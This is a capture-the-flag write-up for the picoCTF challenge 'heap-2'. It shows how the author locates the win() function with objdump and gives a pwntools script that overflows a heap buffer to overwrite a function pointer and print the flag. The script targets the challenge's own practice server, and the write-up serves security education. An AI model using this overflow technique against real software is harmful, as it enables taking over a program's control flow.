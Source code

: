 # heap-2
picoCTF Link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## About

```
Description:
Can you handle function pointers?

Hints:
1. Are you doing the right endianness?
```

## Solution
 
This time, we have to modify `x` so that it points to the win() function.

Finding the location of the win() function is straight forward using objdump. 
```
$ objdump -D chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

I used `pwntools` to send data instead of writing it all myself, which makes everyting way easier.
```python
from pwn import *

#p = process('./chall')
p = remote('mimas.picoctf.net', 55961)

# writes 32 'A', then write the win() function pointer
payload = (b'a' * 32) + p64(0x004011a0) 

# send '2' after we received 'Enter you choice:'
p.sendlineafter(b'Enter your choice:', b'2')
# send the 32 'A's followed by the pointer 
p.sendline(payload)
# send '4' (will print the flag) after we received 'Enter you choice:'
p.sendlineafter(b'Enter your choice:', b'4')

p.interactive()
```

## Answer

```
python solve.py
```